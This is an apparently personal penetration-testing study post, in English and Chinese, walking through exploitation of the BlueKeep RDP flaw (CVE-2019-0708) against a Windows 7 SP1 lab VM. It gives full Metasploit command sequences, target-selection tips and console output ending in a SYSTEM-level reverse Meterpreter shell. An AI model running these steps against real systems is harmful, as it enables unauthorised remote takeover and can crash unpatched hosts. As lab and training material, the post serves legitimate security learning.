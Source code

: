 ```yaml
---
layout: post
title: "Exploiting Windows CVE-2019-0708 RDP Vulnerability (BlueKeep)"
date: "2022-09-16"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student v2
    - Host & Network Penetration Testing
    - System/Host Based Attacks
---
```


# Exploiting Windows CVE-2019-0708 RDP Vulnerability (BlueKeep)
```
sudo nmap -p 3389 10.10.10.7

PORT        STATE   SERVICE
3389/tcp    open    ms-wbt-server
```

[CVE-2019-0708 BlueKeep Microsoft Remote Desktop RCE Check](https://www.rapid7.com/db/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep/)

CVE-2019-0708 BlueKeep Microsoft 远程桌面 RCE 检查

此模块通过将 MS_T120 通道绑定到其正常插槽之外并发送非 DoS 数据包来检查一系列主机是否存在 CVE-2019-0708 漏洞，这些数据包在修补和易受攻击的主机上响应不同。它可以选择性地触发 DoS 漏洞。

[CVE-2019-0708 BlueKeep RDP Remote Windows Kernel Use After Free](https://www.rapid7.com/db/modules/exploit/windows/rdp/cve_2019_0708_bluekeep_rce/)

CVE-2019-0708 BlueKeep RDP 远程 Windows 内核在释放后使用

RDP termdd.sys 驱动程序不正确地处理绑定到仅限内部通道 MS_T120，从而允许格式错误的断开提供程序指示消息导致释放后使用。通过可控的数据/大小远程非分页池喷射，释放通道的间接调用小工具用于实现任意代码执行。Windows 7 SP1 和 Windows Server 2008 R2 是目前唯一支持的目标。假设您的目标选择与系统的内存布局正确匹配，Windows 7 SP1 在其默认配置中应该是可利用的。HKLM\SYSTEM\CurrentControlSet\Control\TerminalServer\Winstations\RDP-Tcp\fDisableCam **需要**设置为 0 才能成功利用 Windows Server 2008 R2。这是普通服务器的非标准配置，如果没有设置上述注册表项，目标将崩溃！如果无论如何目标都崩溃了，您可能需要确定内核内存中的非分页池基础并将其设置为 GROOMBASE 选项。

```
msfconsole

search BlueKeep
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
show options
set RHOSTS 10.10.10.7
run
search BlueKeep
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
show options
set RHOSTS 10.10.10.7
exploit
show targets
set target 2
exploit
meterpreter> sysinfo
meterpreter> getuid
```

# Home Lab
环境：Windows 7 SP1

[Enable Windows Server 2008 R2 Remote Desktop Services](https://www.ge.com/digital/documentation/workflow/t_wf_enable_windows_server_2008_r2_remote_desktop_services.html)

[How-To Enable Remote Desktop RDP on Windows 7](https://www.groovypost.com/howto/howto/enable-remote-desktop-rdp-for-windows-7/)

在Windows Server 2008 R2环境中，需要将`HKLM\SYSTEM\CurrentControlSet\Control\TerminalServer\Winstations\RDP-Tcp\fDisableCam`设置0，才能成功利用BlueKeep。而Windows 7 SP1 在其默认配置中是可利用的。

```
┌──(root㉿kali)-[~]
└─# nmap -p 3389 192.168.248.150
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-06 08:52 EDT
Nmap scan report for 192.168.248.150
Host is up (0.00033s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
MAC Address: 00:0C:29:9A:7D:04 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.19 seconds

```

如果不设置target，则无法利用。将target设置为2-5（虚拟机），都会导致目标Windows 7 SP1崩溃。而将target设置为1（实体机），可以成功利用BlueKeep获得meterpreter会话，尽管目标是运行在Vmware 16中的虚拟机。

```
┌──(root㉿kali)-[~]
└─# msfconsole -q
msf6 > search BlueKeep

Matching Modules
================

   #  Name                                            Disclosure Date  Rank    Check  Description
   -  ----                                            ---------------  ----    -----  -----------
   0  auxiliary/scanner/rdp/cve_2019_0708_bluekeep    2019-05-14       normal  Yes    CVE-2019-0708 BlueKeep Microsoft Remote Desktop RCE Check
   1  exploit/windows/rdp/cve_2019_0708_bluekeep_rce  2019-05-14       manual  Yes    CVE-2019-0708 BlueKeep RDP Remote Windows Kernel Use After Free


Interact with a module by name or index. For example info 1, use 1 or use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

msf6 > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > set RHOSTS 192.168.248.150
RHOSTS => 192.168.248.150
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > run

[+] 192.168.248.150:3389  - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.248.150:3389  - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set RHOSTS 192.168.248.150
RHOSTS => 192.168.248.150
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > exploit

[*] Started reverse TCP handler on 192.168.248.148:4444 
[*] 192.168.248.150:3389 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.248.150:3389 - Using auxiliary/scanner/rdp/cve_2019_0708_bluekeep as check
[+] 192.168.248.150:3389  - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.248.150:3389  - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.248.150:3389 - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[-] 192.168.248.150:3389 - Exploit aborted due to failure: bad-config: Set the most appropriate target manually. If you are targeting 2008, make sure fDisableCam=0 !
[*] Exploit completed, but no session was created.
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic targeting via fingerprinting
   1   Windows 7 SP1 / 2008 R2 (6.1.7601 x64)
   2   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Virtualbox 6)
   3   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 14)
   4   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15)
   5   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15.1)
   6   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Hyper-V)
   7   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - AWS)
   8   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - QEMU/KVM)


msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set target 5
target => 5
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > exploit

[*] Started reverse TCP handler on 192.168.248.148:4444 
[*] 192.168.248.150:3389 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.248.150:3389 - Using auxiliary/scanner/rdp/cve_2019_0708_bluekeep as check
[+] 192.168.248.150:3389  - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.248.150:3389  - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.248.150:3389 - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.248.150:3389 - Using CHUNK grooming strategy. Size 250MB, target address 0xfffffa8028608000, Channel count 1.
[!] 192.168.248.150:3389 - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.248.150:3389 - Surfing channels ...
[*] 192.168.248.150:3389 - Lobbing eggs ...
[*] 192.168.248.150:3389 - Forcing the USE of FREE'd object ...
[!] 192.168.248.150:3389 - <---------------- | Leaving Danger Zone | ---------------->
[*] Exploit completed, but no session was created.

```

Windows 7 SP1崩溃了。

![Windows-7-SP1-crashed.png](/img/in-post/ine/Windows-7-SP1-crashed.png)

当我们设置target为`Windows 7 SP1 / 2008 R2 (6.1.7601 x64)`时，成功获得meterpreter。

```
Exploit targets:

   Id  Name
   --  ----
   1   Windows 7 SP1 / 2008 R2 (6.1.7601 x64)
```

```
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set target 1
target => 1
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > exploit

[*] Started reverse TCP handler on 192.168.248.148:4444 
[*] 192.168.248.150:3389 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.248.150:3389 - Using auxiliary/scanner/rdp/cve_2019_0708_bluekeep as check
[+] 192.168.248.150:3389  - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.248.150:3389  - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.248.150:3389 - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.248.150:3389 - Using CHUNK grooming strategy. Size 250MB, target address 0xfffffa8013200000, Channel count 1.
[!] 192.168.248.150:3389 - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.248.150:3389 - Surfing channels ...
[*] 192.168.248.150:3389 - Lobbing eggs ...
[*] 192.168.248.150:3389 - Forcing the USE of FREE'd object ...
[!] 192.168.248.150:3389 - <---------------- | Leaving Danger Zone | ---------------->
[*] Sending stage (200774 bytes) to 192.168.248.150
[*] Meterpreter session 1 opened (192.168.248.148:4444 -> 192.168.248.150:49159) at 2022-10-06 09:18:30 -0400

meterpreter > sysinfo
Computer        : IEWIN7
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```


